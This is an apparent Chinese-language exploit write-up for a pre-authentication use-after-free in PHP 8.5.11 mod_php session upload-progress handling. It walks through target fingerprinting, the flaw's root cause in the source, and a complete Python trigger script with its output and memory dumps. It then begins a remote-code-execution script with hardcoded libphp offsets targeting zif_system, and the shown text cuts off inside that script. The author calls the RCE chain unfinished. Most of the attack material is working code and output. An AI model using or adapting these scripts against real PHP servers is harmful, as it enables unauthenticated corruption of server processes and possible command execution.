## 一、攻击结论

`mod_php` 形态的 PHP 8.5.11 上，**一个不需要登录的 multipart POST** 就能把 worker 打进「进程还活着、但全局状态已经指向已释放内存」的状态。触发点不在业务代码里，而在 `php_request_startup()` 解析请求体这一步 —— 也就是说目标站写成什么样都不影响。

| 环节 | 状态 | 依据 |
|---|---|---|
| 预认证触发 | **成立** | 25,166,328 字节请求 → OOM 报文与公开报告逐字节一致 |
| 留下悬空原语 | **成立** | 实测 `PS(http_session_vars)` 稳定落在 `chunk+0x55140`，`type_info=0x30a` |
| 原语只在这条路径上 | **成立** | 同一份请求，仅把 `session.upload_progress.enabled` 换掉，悬空消失 |
| 完整 RCE | **链已成型，两处堆占位未闭环** | 见第六节 |

攻击者视角的一句话：**先花一个 25MB 的请求把 worker 弄脏，再花一个几十 KB 的请求去消费它。**

---

## 二、目标识别

最先要看的是「有没有打架的窗口」。靶场外壳是 VeriScan Archive 3.4.1 影像归档台，`POST /api/upload.php` 天然收 multipart —— 但对这条链来说，入口只要能收 POST body 就够了，`index.php` 一样打。



*图 1：受害站点首页。上传入口只是「能让 PHP 读到一个 multipart body」的载体，不是漏洞成因*

`X-Powered-By` 直接给版本；`/status.php` 这类运维自助页会给出三个决定性参数：



*图 2：`/status.php` 把 `memory_limit=16M`、`session.upload_progress.enabled=On`、工作进程数 = 1 全写出来了*

判定目标是否在这个攻击面内，看三件事：

| 条件 | 为什么是硬条件 |
|---|---|
| `session.upload_progress.enabled = On` | 这是唯一能在**脚本执行前**把会话拉到 active 的机制，也是整条链的入口 |
| `memory_limit` 小于 `post_max_size` | 否则 body 还没解析完就被 POST 大小限制挡掉，进不到解析器的分配路径 |
| prefork 单 worker（或能命中同一 worker） | `PS()` 是**进程级**的，多 worker 时下一发大概率落到干净进程上 |

| 项 | 值 |
|---|---|
| PHP | 8.5.11，apache2handler，NTS，Zend Engine 4.5.11 |
| Web 服务器 | Apache/2.4.69 (Debian)，`mod_php`，mpm_prefork |
| 模块文件 | `/usr/lib/apache2/modules/libphp.so` |
| 相关 ini | `memory_limit=16M`、`post_max_size=32M`、`upload_max_filesize=32M`、`session.upload_progress.enabled=On` |
| 危险函数 | `exec,system,shell_exec,passthru,proc_open,popen,pcntl_exec,dl,putenv` 全部禁用 |

版本影响面：

| 分支 | 受影响 | 已修复 |
|---|---|---|
| 8.5 | < 8.5.12 | **8.5.12** |
| 8.4 | < 8.4.27 | **8.4.27** |
| 8.3 | < 8.3.36 | **8.3.36** |
| 8.2 | < 8.2.35 | **8.2.35** |
| 8.1 及更早 | 全部（EOL） | 无补丁 |

---

## 三、漏洞原理（源码级）

整条链只用三处代码缺陷，靠一条执行顺序串起来。

### 3.1 解析发生在脚本之前 —— 这就是「预认证」的根据

`session.upload_progress` 的回调不是脚本里 `session_start()` 触发的，而是 SAPI 读 POST body 时由 multipart 解析器回调的。读 body 发生在 `php_request_startup()` 里面：

```c
/* main.c:1871 — php_request_startup() */
zend_result php_request_startup(void)
{
	zend_result retval = SUCCESS;
	...
	zend_try {
		...
		zend_activate();
		sapi_activate();          /* ← multipart 解析在这里发生 */

		...
		php_hash_environment();
		zend_activate_modules();
		PG(modules_activated)=1;
	} zend_catch {
		retval = FAILURE;         /* ← OOM 的 zend_bailout() 落在这里 */
	} zend_end_try();

	SG(sapi_started) = 1;
	return retval;
}
```

三点直接后果：

1. 攻击面对所有 `mod_php` 站点成立，跟业务鉴权、路由、WAF 规则里「有没有登录」无关。
2. OOM 被 `zend_catch` 吃掉。`zend_error_noreturn()` 走 `zend_bailout()`，`longjmp` 直接跳到这里，函数只返回 `FAILURE`，**进程不退**。
3. `retval = FAILURE` 之后没有任何补救清理，而此刻会话状态已经被 rfc1867 回调改成了 active。

### 3.2 第一处：进程级全局，复位是「条件执行」的

`PS()` 是 **per-process**，不是 per-request。创建它的是：



*图 3：`ext/session/session.c:253` 的 `php_session_track_init()`。高亮两行是唯一「消费上一请求遗留值」的地方*

```c
/* ext/session/session.c:253 */
static void php_session_track_init(void)
{
	zval session_vars;
	zend_string *var_name = ZSTR_INIT_LITERAL("_SESSION", 0);
	/* Unconditionally destroy existing array -- possible dirty data */
	zend_delete_global_variable(var_name);

	if (!Z_ISUNDEF(PS(http_session_vars))) {
		zval_ptr_dtor(&PS(http_session_vars));   /* ← 消费上一请求遗留的状态 */
	}

	array_init(&session_vars);
	ZVAL_NEW_REF(&PS(http_session_vars), &session_vars);
	Z_ADDREF_P(&PS(http_session_vars));
	zend_hash_update_ind(&EG(symbol_table), var_name, &PS(http_session_vars));
	zend_string_release_ex(var_name, 0);
}
```

它**假设** `PS(http_session_vars)` 要么是 UNDEF、要么是仍然有效的 `zend_reference *`，然后无条件 `zval_ptr_dtor()`。漏洞场景里那个值指向的堆已经没了。

配对的唯一复位点在同一文件开头：

```c
/* ext/session/session.c:158 */
static void php_rshutdown_session_globals(void)
{
	/* Do NOT destroy PS(mod_user_names) here! */
	if (!Z_ISUNDEF(PS(http_session_vars))) {
		zval_ptr_dtor(&PS(http_session_vars));
		ZVAL_UNDEF(&PS(http_session_vars));      /* ← 唯一的复位 */
	}
	...
}
```

这个函数只有两个派发点，本场景**两条都走不到**：

- `PHP_RSHUTDOWN_FUNCTION(session)`（`session.c:2908`）—— 正常请求收尾；
- `MULTIPART_EVENT_END` 分支（`session.c:3340`）—— rfc1867 收到解析结束事件时的收尾。

PoC 的 OOM 发生在 `MULTIPART_EVENT_FILE_DATA` 阶段，body 还没读完：既收不到 `MULTIPART_EVENT_END`，`zend_bailout()` 又打断了 `php_request_startup()` 的执行流。于是请求堆释放之后，worker 手里的指针原样留着。

### 3.3 第二处：把 `zval *` 裸指针缓存进活着的 HashTable

进度回调为了高频更新，没有每次重新查找，而是把桶里 `zval` 的**地址**存进 `progress`：



*图 4：`php_session_rfc1867_update()` 与 `_cleanup()`。高亮行是 `zend_hash_update()` —— 它会就地析构同一个桶*

```c
/* ext/session/session.c:3132 */
static void php_session_rfc1867_update(php_session_rfc1867_progress *progress, bool force_update)
{
	...
	php_session_initialize();
	PS(session_status) = php_session_active;
	IF_SESSION_VARS() {
		zval *sess_var = Z_REFVAL(PS(http_session_vars));
		SEPARATE_ARRAY(sess_var);

		progress->cancel_upload |= php_check_cancel_upload(progress);
		Z_TRY_ADDREF(progress->data);
		zend_hash_update(Z_ARRVAL_P(sess_var), progress->key.s, &progress->data);
	}
	php_session_flush(1);
}

/* ext/session/session.c:3154 */
static void php_session_rfc1867_cleanup(php_session_rfc1867_progress *progress)
{
	php_session_initialize();
	PS(session_status) = php_session_active;
	IF_SESSION_VARS() {
		zval *sess_var = Z_REFVAL(PS(http_session_vars));
		SEPARATE_ARRAY(sess_var);
		zend_hash_del(Z_ARRVAL_P(sess_var), progress->key.s);
	}
	php_session_flush(1);
}
```

`zend_hash_update()` 撞到已存在的桶时会**就地**析构再覆写：

```c
/* Zend/zend_hash.c — _zend_hash_add_or_update_i() */
} else {
	ZEND_ASSERT(&p->val != pData);
	data = &p->val;
	if ((flag & HASH_UPDATE_INDIRECT) && Z_TYPE_P(data) == IS_INDIRECT) {
		data = Z_INDIRECT_P(data);
	}
}
if (ht->pDestructor) {
	ht->pDestructor(data);        /* ← 对这个地址做析构 */
}
ZVAL_COPY_VALUE(data, pData);     /* ← 再原地覆写 */
```

而 `progress->post_bytes_processed` / `current_file_bytes_processed` 缓存的正是 `&p->val`：

```c
/* ext/session/session.c:3271 — MULTIPART_EVENT_FILE_START */
progress->post_bytes_processed =
    zend_hash_str_find(Z_ARRVAL(progress->data), ZEND_STRL("bytes_processed"));

/* ext/session/session.c:3291 */
progress->current_file_bytes_processed =
    zend_hash_str_find(Z_ARRVAL(progress->current_file), ZEND_STRL("bytes_processed"));
```

`zend_hash_str_find()` 返回的是桶内 `zval` 的地址，不是副本。桶数组本身可变：`ZEND_HASH_IF_FULL_DO_RESIZE()` 会 `erealloc` 整片 `arData`；`zend_hash_del()` 会把桶标成 `IS_UNDEF` 并可能还回 allocator；整表 dtor 时逐桶清理。**代码里没有任何一处**在这些动作发生时让缓存指针失效。

### 3.4 第三处：每个数据块都写回一次



*图 5：`session.c:3294` 的 `MULTIPART_EVENT_FILE_DATA`。高亮两行是每次数据块到达时对两个缓存指针的写回*

```c
/* ext/session/session.c:3294 */
case MULTIPART_EVENT_FILE_DATA: {
	multipart_event_file_data *data = (multipart_event_file_data *) event_data;

	if (!Z_TYPE(progress->sid) || !progress->key.s) {
		break;
	}

	Z_LVAL_P(progress->current_file_bytes_processed) = data->offset + data->length;
	Z_LVAL_P(progress->post_bytes_processed) = data->post_bytes_processed;

	php_session_rfc1867_update(progress, 0);
}
break;
```

`data->post_bytes_processed` 是请求偏移量，攻击者能直接影响。所以这不是单纯的悬空读，而是带一个**值可控的 8 字节写**——公开 PoC 用它去改某个 `zend_reference` 的 `refcount`。

### 3.5 三处怎么咬合

```
FORMDATA      → 拿到 PHPSESSID 与进度 key
FILE_START    → php_rinit_session(0) 让会话进入 active
                缓存 post_bytes_processed = &bucket->val
FILE_DATA     → 每块数据写回两个缓存指针
big(24MB)     → 超过 memory_limit=16M
              → zend_error_noreturn() → zend_bailout() → longjmp
              → php_request_startup() 的 zend_catch: retval = FAILURE
              → 进程存活，PS(http_session_vars) 未复位
request heap  → 释放；worker 手里留下悬空的 zend_reference
```

**3.1 负责「提前退出」，3.2 负责「没人清理」，3.3/3.4 负责「把状态交到下一个请求手里」。**

---

## 四、PoC：预认证触发器

### 4.1 用法

```bash
python3 poc_109619.py -u http://ip:port/index.php
python3 poc_109619.py -u http://ip:port/api/upload.php -m 24
```

四个 part 缺一不可：`PHPSESSID` 给会话 id、`PHP_SESSION_UPLOAD_PROGRESS` 打开进度追踪、`f`（带 filename）触发 `FILE_START` 把会话拉成 active、`big` 撑爆内存上限。

### 4.2 源码

文件：`exploit/poc_109619.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""CVE-2026-109619 · PoC —— 预认证阶段把 mod_php worker 打成「带悬空指针」的状态。

用一句话说清它干了什么：
    发一个 24MB 的 multipart POST，让 PHP 在 php_request_startup() 里解析 body 时
    撞上 memory_limit，zend_bailout() longjmp 提前退出，配对的
    php_rshutdown_session_globals() 没跑到，于是 worker 级全局
    PS(http_session_vars) 留着一个指向已释放请求堆的 zend_reference *。

不需要账号、不需要目标站点有任何业务代码参与 —— 触发点在 SAPI 读 body 阶段。

用法：
    python3 poc_109619.py -u http://ip:port/index.php
    python3 poc_109619.py -u http://ip:port/api/upload.php -s 100 -m 24

只依赖标准库。默认参数对应 memory_limit=16M / post_max_size=32M 的构建。
"""
from __future__ import annotations

import argparse
import http.client
import sys
from urllib.parse import urlparse

BOUNDARY = b"----p2s109619x7"

# 四个 part 各有分工，一个都不能省：
#   PHPSESSID                     -> 让 rfc1867 回调拿到会话 id，才会往下走
#   PHP_SESSION_UPLOAD_PROGRESS   -> 打开进度追踪，构造 progress->key
#   f (带 filename)                -> 触发 MULTIPART_EVENT_FILE_START，此处才真正
#                                    php_rinit_session()，把会话拉成 active
#   big                           -> 撑爆 memory_limit，在 FILE_DATA 阶段 OOM
FIELDS = [
    ("PHPSESSID", None, None),
    ("PHP_SESSION_UPLOAD_PROGRESS", None, None),
    ("f", b"hello\n", "a.txt"),
    ("big", None, None),
]


def part(name: str, body: bytes, filename: str | None = None) -> bytes:
    disp = f'Content-Disposition: form-data; name="{name}"'
    if filename is not None:
        disp += f'; filename="{filename}"'
    head = b"--" + BOUNDARY + b"\r\n" + disp.encode() + b"\r\n"
    if filename is not None:
        head += b"Content-Type: text/plain\r\n"
    return head + b"\r\n" + body + b"\r\n"


def build(sid_len: int, mb: int) -> bytes:
    sid = b"a" * sid_len
    # 37 字节的进度值：长度本身不重要，重要的是它非空且被 php 当成 key 前缀拼进 key
    progress = b"p" * 37
    big = b"B" * (mb * 1024 * 1024)
    values = {0: sid, 1: progress, 2: b"hello\n", 3: big}
    out = bytearray()
    for i, (name, body, filename) in enumerate(FIELDS):
        out += part(name, values[i] if body is None else body, filename)
    out += b"--" + BOUNDARY + b"--\r\n"
    return bytes(out)


def fire(url: str, sid_len: int, mb: int, timeout: int) -> tuple[int, bytes]:
    u = urlparse(url if "://" in url else "http://" + url)
    body = build(sid_len, mb)
    conn = http.client.HTTPConnection(u.hostname, u.port or 80, timeout=timeout)
    conn.request(
        "POST",
        u.path or "/",
        body=body,
        headers={
            "Content-Type": f"multipart/form-data; boundary={BOUNDARY.decode()}",
            "Content-Length": str(len(body)),
            "User-Agent": "Mozilla/5.0",
            "Connection": "close",
        },
    )
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    return resp.status, data


def main() -> int:
    ap = argparse.ArgumentParser(description="CVE-2026-109619 pre-auth arm")
    ap.add_argument("-u", "--url", required=True, help="http://ip:port/index.php")
    ap.add_argument("-s", "--sid-len", type=int, default=100)
    ap.add_argument("-m", "--mb", type=int, default=24, help="big part 的大小（MB）")
    ap.add_argument("-t", "--timeout", type=int, default=120)
    args = ap.parse_args()

    total = args.mb * 1024 * 1024
    print(f"[*] target  {args.url}")
    print(f"[*] body    ~{total // 1024 // 1024}MB  (big part {args.mb}MB)")
    status, data = fire(args.url, args.sid_len, args.mb, args.timeout)
    print(f"[*] resp    {status}  len={len(data)}")

    text = data.decode("utf-8", "replace")
    if "Allowed memory size of" in text:
        # 报文里的 tried= 是内存管理器当时向系统要的扩容量，能对上就说明打的是同一条路径
        for line in text.splitlines():
            if "Allowed memory size" in line or "tried to allocate" in line:
                print("[+] " + line.strip())
        print("[+] armed: request died during php_request_startup()")
        print("[!] next: PS(http_session_vars) is worker-global, still points into")
        print("    the freed request heap. Send the next request to consume it.")
        return 0

    print("[-] no OOM marker in response; target may be patched, or")
    print("    memory_limit/post_max_size are not the ones this PoC assumes.")
    print("    first 200 bytes: " + text[:200].replace("\n", " "))
    return 1


if __name__ == "__main__":
    sys.exit(main())
```

### 4.3 实测



*图 6：`6296371` 是内存管理器当时向系统要的扩容量，与公开报告的实测值一致 —— 说明打的是同一条路径*

```
<b>Fatal error</b>:  Allowed memory size of 16777216 bytes exhausted
(tried to allocate 6296371 bytes) in <b>Unknown</b> on line <b>0</b>
```

响应 200，正文只有这一句。**worker 没有死**（pid 不变）—— 打崩服务不是目的，留下一个状态被污染的进程才是。

### 4.4 原语确认

在本地同版本构建上（root，读 `/proc/<pid>/mem`）确认悬空指针真实存在：



*图 7：`type_info=0x30a` 说明它仍被当成 `IS_REFERENCE`，而所在地址已经属于被释放的请求堆*

```
PS zval: ref=0x...55140  type_info=0x30a
chunk_rel = 0x55140  -> 落在 [anon:zend_alloc] 已释放页
```

引用本身和它指向的旧 `$_SESSION` 数组都还读得出来：

```
--- _zend_reference @ chunk+0x55140 ---
02 00 00 00 1a 00 00 00   refcount=2  type_info=0x1a (IS_REFERENCE)
d8 72 a5 44 21 7c 00 00   val = chunk+0x572d8
07 03 00 00               val.type_info = 0x307 (IS_ARRAY|0x300)

--- _zend_array @ chunk+0x572d8 ---
01 00 00 00 07 04 00 c0   gc.refcount=1  gc.type_info=0xc0000407
00 00 00 00 f0 ff ff ff   u.flags=0  nTableMask=-16
40 55 a6 44 21 7c 00 00   arData = chunk+0x65540
01 00 00 00 01 00 00 00   nNumUsed=1  nNumOfElements=1
08 00 00 00 00 00 00 00   nTableSize=8  nInternalPointer=0
80 a0 47 9b 41 21 7c 00   nNextFreeElement=0x80
a0 47 9b 41 21 7c 00 00   pDestructor = libphp+0x7b47a0
```

两个数字值得记住：`refcount=2` 决定后面那一跳成不成（见第六节）；`pDestructor=libphp+0x7b47a0` 是正常数组的 `zval_ptr_dtor`，不是我们想要的 `zif_system`。

布局是稳定的：容器重启后重跑，`ref` 都回到 `chunk+0x55140`。

---

## 五、EXP：从悬空引用到命令执行

### 5.1 链条

```
zval_ptr_dtor(PS(http_session_vars))          refcount 必须是 1
  └─ zend_reference_destroy(ref)
       └─ zval_ptr_dtor(&ref->val)            ref->val 是 IS_ARRAY
            └─ zend_array_release(ht)
                 └─ zend_hash_destroy(ht)     nNumUsed / pDestructor
                      └─ pDestructor(&p->val)
                           = zif_system(&bucket.val)
                           worker 进程里执行 cmd
```

关键在最后一跳为什么成立：`Bucket.val` 在桶结构最前面，所以 `zend_hash_destroy()` 传给 `pDestructor` 的那个 `zval *`，地址**等于 `arData` 本身**。把 `arData` 指向自己编排的缓冲区，这块缓冲区的头部同时就是一份 `zend_execute_data`。

### 5.2 源码

文件：`exploit/exp_109619.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""CVE-2026-109619 · EXP —— 把 PoC 留下的悬空 zend_reference 接到 zif_system()。

链条（每一跳都对应一个可控字段）：

    zval_ptr_dtor(PS(http_session_vars))          refcount 必须是 1
      └─ zend_reference_destroy(ref)
           └─ zval_ptr_dtor(&ref->val)           ref->val 是 IS_ARRAY
                └─ zend_array_release(ht)
                     └─ zend_hash_destroy(ht)    ht->nNumUsed / pDestructor
                          └─ pDestructor(&p->val)
                               = zif_system(&bucket.val)
                               worker 进程里执行 cmd

为什么最后一跳成立：`Bucket.val` 在桶结构的最前面，所以
`zend_hash_destroy()` 传给 `pDestructor` 的那个 `zval *`，地址就等于 `arData`。
把 `arData` 指向一块自己编排的缓冲区，这块缓冲区的头部同时就是一份
`zend_execute_data`；`zif_system` 只从里面读三个字段（见 OFFSETS 注释）。

状态：链已成型并逐段验证过；两处未闭环 —— 陈旧引用还是 refcount=2（dtor 进不了
      销毁分支），且喷洒始终没落到 chunk+0x55140 那块槽位。见 main() 里的 BLOCKED 段。
      这不是「一键打穿」的成品，别当成武器化脚本用。
"""
from __future__ import annotations

import argparse
import http.client
import re
import struct
import sys
from urllib.parse import urlparse

# ---------------------------------------------------------------------------
# 本构建（PHP 8.5.11 / Debian apache2handler，NTS）实测偏移，相对 libphp.so 基址
# ---------------------------------------------------------------------------
OFF = {
    "zif_system":         0x5996E0,   # 10 字节跳板：mov edx,1; jmp 0x599440
    "zif_system_body":    0x599440,   # php_exec_common
    "zval_ptr_dtor":      0x7B47A0,   # 也等于普通 HashTable 的 pDestructor
    "zend_hash_destroy":  0x768E30,
    "zend_call_function": 0x6FFFB0,
    "ps_globals":         0x1771A40,
}
PS_VAL = 0x168          # ps_globals + 0x168 -> http_session_vars.value
PS_TYPE = 0x170         # ps_globals + 0x170 -> http_session_vars.type_info

# zval / HashTable 类型标记
IS_ARRAY = 7
IS_STRING = 6
IS_REFERENCE = 10
GC_TYPE_REFCOUNTED = 0x0400     # zend_refcounted_h.type_info 的 refcounted 位

# fake zend_execute_data 里 zif_system 真正会读的三个字段
ED_NUM_ARGS = 0x2C      # ZEND_CALL_NUM_ARGS
ED_ARG1_VAL = 0x50      # ZEND_CALL_FRAME_SLOT(5) * 16，参数区起点
ED_ARG1_TYPE = 0x58

# 一块 payload 内的相对布局（全部落在同一个 320 字节 bin 的字符串数据里）
L_REF = 0x00            # fake zend_reference   (32B)
L_HT = 0x20             # fake zend_array      (56B)
L_BUCKET = 0x58         # fake Bucket = fake zend_execute_data 起点
L_CMD = 0xF0            # 命令字符串（zend_string 头 + 数据）

PAYLOAD = 0x140         # 320：本构建里悬空槽位所在的 size class


def p64(v: int) -> bytes:
    return struct.pack("<Q", v & 0xFFFFFFFFFFFFFFFF)


def p32(v: int) -> bytes:
    return struct.pack("<I", v & 0xFFFFFFFF)


